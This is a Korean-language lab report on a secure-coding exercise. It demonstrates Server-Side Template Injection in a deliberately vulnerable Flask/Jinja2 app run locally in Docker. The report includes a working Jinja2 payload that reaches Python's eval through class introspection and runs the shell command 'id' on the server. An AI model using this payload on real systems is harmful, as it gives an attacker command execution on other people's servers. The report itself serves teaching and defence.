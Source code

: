 # SSTI (Server-Side Template Injection) 취약점 실습 보고서

---

## 1. 실습 개요

- **주제**: Flask 기반 웹 서버의 SSTI(Server-Side Template Injection) 취약점 검증
- **목표**: Jinja2 템플릿 엔진의 취약점을 이용하여 서버 측 명령어를 실행하는 PoC 검증

---

## 2. 환경 구성

- **OS**: Windows 10 (PowerShell 사용)
- **Docker**: Docker Desktop for Windows
- **Python**: 3.x 버전
- **Flask 버전**: 3.0.3

### 사용한 주요 파일

| 파일명 | 설명 |
|:---|:---|
| docker-compose.yml | Flask 서버를 컨테이너로 띄우기 위한 설정 파일 |
| Dockerfile | Flask 앱을 컨테이너화하기 위한 설정 파일 |
| src/app.py | SSTI 취약점이 존재하는 Flask 웹 어플리케이션 |
| poc.py | SSTI 취약점을 이용해 공격을 수행하는 PoC 스크립트 |

---

## 3. 동작 흐름

### 3.1 Docker Compose로 서버 실행

```bash
docker compose up --build
```

**실행 화면 캡처:**

![docker-compose-up](./images/docker-compose-up.png)

---

### 3.2 웹 브라우저에서 SSTI 테스트

- URL 접근:

```
http://localhost:8000/?name={{8*7}}
```

- 결과 화면:

![browser-ssti-test](./images/browser-ssti-test.png)

---

### 3.3 PoC 코드 실행

- `poc.py` 실행:

```bash
python poc.py
```

- 출력 결과:

![poc-execution](./images/poc-execution.png)

---

### 3.4 서버의 명령어 실행 결과

- 서버에서 `id` 명령어 결과를 반환:

![id-result](./images/id-result.png)

---

## 4. 취약점 검증 (PoC)

### 4.1 SSTI 공격 페이로드

```jinja2
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
      {% if b.__class__ == {}.__class__ %}
        {% if 'eval' in b.keys() %}
          {{ b['eval']('__import__("os").popen("id").read()') }}
        {% endif %}
      {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```

- 해당 페이로드를 통해 서버 내부에서 명령어 실행(`id`)을 성공적으로 수행하였다.

---

## 5. 결과 요약

| 항목 | 결과 |
|:---|:---|
| SSTI 취약점 존재 여부 | ✅ 존재 확인 |
| 명령어 실행 성공 여부 | ✅ 서버 명령어(id) 실행 성공 |
| PoC 성공 여부 | ✅ 성공적으로 서버 제어 |

---

## 6. GitHub 레포지터리

- 작업 결과 GitHub 레포지터리:  
[https://github.com/buddle031/secure-coding](https://github.com/buddle031/secure-coding)

---

## 7. 결론

본 실습을 통해 Flask/Jinja2 환경에서 발생 가능한 SSTI 취약점을 직접 검증하고, 서버 측 명령어 실행까지 성공하였다.  
이를 통해 서비스 개발 시 템플릿 렌더링 과정에서 입력값을 철저히 검증하고, 취약점을 예방하는 보안 조치가 필요함을 확인할 수 있었다.

--- 
